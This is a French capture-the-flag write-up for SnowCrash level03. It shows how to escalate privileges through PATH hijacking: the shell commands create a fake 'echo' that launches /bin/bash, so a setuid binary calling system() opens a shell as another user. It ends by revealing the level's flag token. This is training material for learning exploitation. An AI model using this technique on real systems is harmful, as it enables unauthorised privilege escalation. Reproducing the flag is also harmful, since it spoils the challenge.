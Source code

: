 Un trouve un exécutable nommé level03 qui, quand lancé, nous affiche "Exploit me". On lance donc ltrace pour comprendre ce que fait le programme.

<pre><code>$ ltrace ./level03
__libc_start_main(0x80484a4, 1, 0xbffff7f4, 0x8048510, 0x8048580
getegid()                                             = 2003
geteuid()                                             = 2003
setresgid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280)   = 0
setresuid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280)   = 0
system("/usr/bin/env echo Exploit me"Exploit me
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                     = 0
+++ exited (status 0) +++</pre></code>

Le programme fait appel à system pour lancer la commande echo. On peut donc créer notre propre version de echo qui lancera /bin/bash avec les droits de l'owner. Pour cela il faut creer notre fichier echo et remplacer le path pour qu'il soit appelé :

<pre><code>$ echo "/bin/bash" > /tmp/echo
$ chmod 777 /tmp/echo
$ export PATH=/tmp:$PATH</pre></code>

On lance ensuite le programme :

<pre><code>level03@SnowCrash:~$ ./level03
bash: /home/user/level03/.bashrc: Permission denied
flag03@SnowCrash:~$</pre></code>

On voit que notre user a changé, nous sommes maintenant flag03

<pre><code>$ getflag
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus</code></pre>

https://opensource.com/article/20/4/linux-binary-analysis
https://stackoverflow.com/questions/8304396/what-is-vulnerable-about-this-c-code
